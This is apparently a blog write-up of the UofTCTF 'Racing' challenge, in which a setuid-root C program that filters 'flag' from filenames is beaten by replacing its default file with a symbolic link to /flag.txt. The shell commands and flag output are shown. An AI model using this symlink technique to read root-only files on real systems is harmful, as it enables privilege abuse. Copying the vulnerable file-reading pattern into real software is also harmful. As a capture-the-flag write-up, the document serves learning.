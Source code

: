 ```yaml
---
title: UofTCTF - Racing
published: 2025-01-14
description: 'This challenge is a misc chall on my first ctf ever ! '
image: ''
tags: [UofTCTF,]
category: 'misc'
draft: false 
lang: ''
---
```


# Intro


First of all, let's take a look at the challenge : 
<br/>
![](../../assets/Racing/Pasted%20image.png)

Nothing really interesting but they gave us a copy of the binary running on the machine.

When we connect to the machine, we can see a `flag.txt` that we can't read. So, we can imagine that the challenge is to exploit the binary to read `flag.txt`.
Lets review the code : 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    if (setuid(0) != 0)
    {
        perror("Error setting UID");
        return EXIT_FAILURE;
    }

    char *fn = "/home/user/permitted";
    char buffer[128];
    char f[128];
    FILE *fp;

    if (!access(fn, R_OK))
    {
        printf("Enter file to read: ");
        fgets(f, sizeof(f), stdin);
        f[strcspn(f, "\n")] = 0;

        if (strstr(f, "flag") != NULL)
        {
            printf("Can't read the 'flag' file.\n");
            return 1;
        }

        if (strlen(f) == 0)
        {
            fp = fopen(fn, "r");
        }
        else
        {
            fp = fopen(f, "r");
        }

        fread(buffer, sizeof(char), sizeof(buffer) - 1, fp);
        fclose(fp);
        printf("%s\n", buffer);
        return 0;
    }
    else
    {
        printf("Cannot read file.\n");
        return 1;
    }
}

```

I'm not a C expert but I understood that this code asks us for a file to read with `root permissions` : 

```c
//here, the program starts by upgrading the process privileges to root
if (setuid(0) != 0)
```

```c
printf("Enter file to read: ");
        fgets(f, sizeof(f), stdin);
        f[strcspn(f, "\n")] = 0;
```

But we can't read directly the flag file : 

```c
if (strstr(f, "flag") != NULL)
        {
            printf("Can't read the 'flag' file.\n");
            return 1;
        }
```

# Exploit

Something more interesting is the fact that if we don't specify any file, the code will read the file at `"/home/user/permitted"` : 

```c
char *fn = "/home/user/permitted";
```

```c
//here, f is the result of the user input.
if (strlen(f) == 0)
        {
            fp = fopen(fn, "r");
        }
        else
        {
            fp = fopen(f, "r");
        }
```

So, my idea was to link the "permitted" file to flag.txt with a `symbolic link`, as we have root privileges by running the program (So we can read the flag file, which is owned and only readable by root).


```shell
User@containerssh-hblmc:/challenge$ rm /home/user/permitted
User@containerssh-hblmc:/challenge$ ln -s /flag.txt /home/user/permitted
```
:::important
If you're not familiar with symbolic links, think of them as a shortcut on the desktop: they are special files that point to another file. If we open this link, we can access the original file. If the original file is deleted or moved, the link no longer works.

:::

With this, if we don't specify any file, the program will try to read `/home/user/permitted`, but with the symbolic link, it will instead read the `flag.txt` file."

Lets run the code now : 

```shell
User@containerssh-hblmc:/challenge$ ./chall
Enter file to read : 
uoftctf{r4c3_c0nd1t10n5_4r3_c00l}
```

Bingo ! we have the flag ! 



